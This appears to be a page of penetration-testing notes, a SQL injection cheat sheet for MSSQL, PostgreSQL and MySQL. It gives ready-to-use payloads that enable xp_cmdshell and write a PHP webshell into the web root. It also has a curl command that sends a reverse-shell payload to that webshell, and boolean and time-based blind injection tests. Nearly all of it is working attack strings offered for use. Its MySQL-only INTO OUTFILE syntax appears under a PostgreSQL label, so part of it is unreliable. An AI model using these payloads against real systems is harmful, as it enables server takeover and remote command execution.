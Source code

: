 ```
######
# MS #
######
' UNION SELECT null, null, cast((EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE; EXEC xp_cmdshell 'echo ^<?php system($_GET["cmd"]); ^> > C:\inetpub\wwwroot\shell.php';) AS NVARCHAR(4000)), null --//
```

```
#####
# P #
#####
' UNION SELECT null, null, '<?php system($_GET["cmd"]); ?>', null INTO OUTFILE '/var/www/html/shell.php'; --//
```
***Hit the webshell***
```
curl -k http://`tip`:`WPORT`/tmp/webshell.php?cmd=url_encoded_reverse_shell_payload
```

# *Blind*
***UNLIKELY*** to appear but just incase, use below to test
## test
```
######
# My #
######
' OR 1=1 --// True condition
' OR 1=2 --// False condition

' OR IF(1=1, SLEEP(5), 0) --// True - causes a delay
' OR IF(1=2, SLEEP(5), 0) --// False - no delay
```

```
######
# MS #
######
' OR 1=1 --// -- True condition
' OR 1=2 --// -- False condition

' IF(1=1) WAITFOR DELAY '0:0:5' --//   -- True - causes a delay
' IF(1=2) WAITFOR DELAY '0:0:5' --//   -- False - no delay
```

```
#####
# P #
#####
' OR 1=1 --//   -- True condition
' OR 1=2 --//   -- False condition

' OR (SELECT pg_sleep(5) WHERE 1=1); --//  -- True - causes a delay
' OR (SELECT pg_sleep(5) WHERE 1=2); --//  -- False - no delay
```
